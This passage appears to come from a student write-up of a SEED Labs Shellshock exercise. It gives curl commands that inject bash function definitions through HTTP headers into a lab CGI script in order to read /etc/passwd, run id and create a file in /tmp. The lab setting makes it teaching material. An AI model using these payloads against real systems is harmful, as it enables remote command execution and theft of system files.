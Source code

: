 This task involves launching an attack through `http://www.seedlab-shellshock.com/cgi-bin/vul.cgi` to get the server to run an arbitrary command. In this task, the shell function `() { dummy;}` will be passed as a user-supplied string through curl. In addition to this shell function, we will add the attack code after the shell function.


#### Getting the server to send back the content of the /etc/passwd file

In order to receive the contents of the `/etc/passwd` file, we can craft the following command to `http://www.seedlab-shellshock.com/cgi-bin/vul.cgi`

```bash
curl --user-agent "() { dummy;}; echo; /bin/cat /etc/passwd" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![task-2-a](https://github.com/iukadike/blog/assets/58455326/6f5a7755-17bb-44af-b9fe-0d5580d81dd0)

From the screenshot above, we can see that indeed the vulnerable bash program ran the command and we get back the contents of `/etc/passwd`

___

#### Getting the server to return its process user ID

In order to receive the process user ID of the server, we can craft the following command: `http://www.seedlab-shellshock.com/cgi-bin/vul.cgi`

```bash
curl --referer "() { dummy;}; echo; /bin/id" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![task-2-b-1](https://github.com/iukadike/blog/assets/58455326/054a5d99-7a16-4886-b00a-0f7fcb9c26fb)

From the screenshot above, we can see that indeed the vulnerable bash program ran the command, and we get back the process user ID of the server.

From the result obtained, we do not have super user access, thus if we try to steal a privileged file like `/etc/shadow`, the attack will fail as seen from the scrrenshot below

![task-2-b-2](https://github.com/iukadike/blog/assets/58455326/5ac414b3-c6b5-4e08-b518-c732b3f75acf)

___

#### Getting the server to create a file inside `/tmp`

In order to tell the server to create a new file in `/tmp`, we can craft the following command: `http://www.seedlab-shellshock.com/cgi-bin/vul.cgi`

```bash
curl --header "a: () { dummy;}; echo; /bin/touch /tmp/ukadike-2023" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![task-2-c](https://github.com/iukadike/blog/assets/58455326/b9de3b74-1719-4652-9bc7-5ce3a9d9b1d4)
